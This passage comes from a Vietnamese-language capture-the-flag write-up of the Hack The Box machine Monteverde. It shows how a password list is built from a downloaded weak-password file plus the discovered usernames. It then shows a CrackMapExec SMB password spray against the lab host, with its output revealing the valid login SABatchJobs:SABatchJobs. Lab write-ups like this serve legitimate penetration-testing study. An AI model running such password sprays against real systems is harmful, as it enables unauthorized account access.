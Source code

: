 ## Foothold

Có danh sách user và đối với nỗ lực spray mật khẩu, có thể sử dụng danh sách rất ngắn các mật khẩu có khả năng thống kê cao. Việc thêm tên user đã phát hiện vào danh sách này là đáng giá, vì việc có password trùng với username là một thực tế phổ biến.

```
get https://raw.githubusercontent.com/insidetrust/statistically-likely-usernames/master/weak-corporate-passwords/english-basic.txt

cat users.txt >> english-basic.txt
```

![alt text](image-6.png)

Tiếp theo, có thể sử dụng CrackMapExec để thực hiện việc spray mật khẩu, lưu ý rằng không có rủi ro nào trong việc lock tài khoản do không có chính sách lock tài khoản.

```
crackmapexec smb 10.10.10.172 -d megabank -u users.txt -p english-basic.txt

SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Password1 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Welcome1 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Letmein1 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Password123 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Welcome123 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Letmein123 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:mhope STATUS_LOGON_FAILURE
<SNIP>
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\SABatchJobs:mhope STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [+] megabank\SABatchJobs:SABatchJobs
```
